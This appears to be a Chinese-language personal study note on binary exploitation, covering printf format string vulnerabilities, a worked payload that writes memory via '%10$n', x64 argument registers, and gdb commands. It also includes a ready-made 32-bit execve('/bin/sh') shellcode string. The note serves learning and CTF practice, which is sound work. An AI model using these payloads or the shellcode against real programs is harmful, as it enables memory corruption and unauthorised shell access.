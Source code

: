 ## 格式化字符串漏洞
应用于 printf 家族的不规范使用
```cpp
printf("format",output);//标准格式
printf("%s",str);//这个很规范
printf(str);//虽然这个也可以输出,但会出现问题,即格式化字符串漏洞
```
format 参数告诉程序改用什么格式输出 str
比如 %s 就是把 str 以字符串形式输出
%d 以 int 类型输出

但是当没有 format 参数直接上 output
程序就会把 output 当做 format 参数使用
也就是说,如果 output 当中有如 %s %d 之类的格式化字符串,程序就会进行解析


常用基本的格式化字符串参数介绍(摘自 [https://blog.csdn.net/zz_Caleb/article/details/88980866](http://geekfz.cn/wp-content/themes/begin5.2/inc/go.php?url=https://blog.csdn.net/zz_Caleb/article/details/88980866))：
```
%c：输出字符，配上%n可用于向指定地址写数据。

%d：输出十进制整数，配上%n可用于向指定地址写数据。

%x：输出16进制数据，如%i$x表示要泄漏偏移i处4字节长的16进制数据，%i$lx表示要泄漏偏移i处8字节长的16进制数据，32bit和64bit环境下一样。

%p：输出16进制数据，与%x基本一样，只是附加了前缀0x，在32bit下输出4字节，在64bit下输出8字节，可通过输出字节的长度来判断目标环境是32bit还是64bit。

%s：输出的内容是字符串，即将偏移处指针指向的字符串输出，如%i$s表示输出偏移i处地址所指向的字符串，在32bit和64bit环境下一样，可用于读取GOT表等信息。

%n：将%n之前printf已经打印的字符个数赋值给偏移处指针所指向的地址位置，如%100×10$n表示将0x64写入偏移10处保存的指针所指向的地址（4字节），而%$hn表示写入的地址空间为2字节，%$hhn表示写入的地址空间为1字节，%$lln表示写入的地址空间为8字节，在32bit和64bit环境下一样。有时，直接写4字节会导致程序崩溃或等候时间过长，可以通过%$hn或%$hhn来适时调整。

%n是通过格式化字符串漏洞改变程序流程的关键方式，而其他格式化字符串参数可用于读取信息或配合%n写数据。
```
上面讲的比较抽象 ~~(至少我第一次看的时候没怎么懂,可能我比较菜吧,自闭)~~

举个栗子
```py
addr=0x080468cd
output=p32(addr)+'%10$n'
```
我们假设 printf 函数中的 output 偏移量为 10

如果我们把以上 output 输入
printf 函数就会把 output 前四个字节当做 %n 的写入地址将已经输出的字符个数写入其中,addr 长度为四个字节,所以结果就是 addr 所对的值变成 4

如果要让 addr 所对的值变为 8,只需要在 output 中加入四个字节
比如
```py
output=p32(addr)+'a'*4+'%10$n'
```
这个 $ 就相当于与一个标志,告诉程序偏移量终止
这样就可以绕过一些变量的判断

# x64
其中需要注意的就是 64位传参使用的是寄存器

> 从第一个到第六个依次保存在rdi，rsi，rdx，rcx，r8，r9。从第7个参数开始，接下来的所有参数都将通过栈传递

# scanf
如果`scanf`没加`&`的话，程序会默认从栈中读取`4`个字节的数据当做`scanf`取的地址

# execve
```python
# execve ("/bin/sh") 
# xor ecx, ecx
# mul ecx
# push ecx
# push 0x68732f2f   ;; hs//
# push 0x6e69622f   ;; nib/
# mov ebx, esp
# mov al, 11
# int 0x80

shellcode = "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73"
shellcode += "\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0"
shellcode += "\x0b\xcd\x80"
```
常用命令： 
1. checksec 查看elf编译的保护选项。 
2. file [file] 加载objfile 
3. disas addr 对地址addr处的指令进行反汇编，addr可以是函数名 
4. b *addr 在addr处下一个断点 
5. x addr 查看addr处存储的数据值 
6. r 运行被调试的程序 
7. c 继续运行 
8. ni 单步执行不进入 
9. si 单步执行并进入
10.vmmap 得到虚拟映射地址
————————————————
版权声明：本文为CSDN博主「Aka丶」的原创文章，遵循 CC 4.0 BY-SA 版权协议，转载请附上原文出处链接及本声明。
原文链接：https://blog.csdn.net/gyhgx/article/details/53439417
<!--stackedit_data:
eyJoaXN0b3J5IjpbLTEwNTMyNzE1MzIsLTIwOTAxMzg3NzJdfQ
==
-->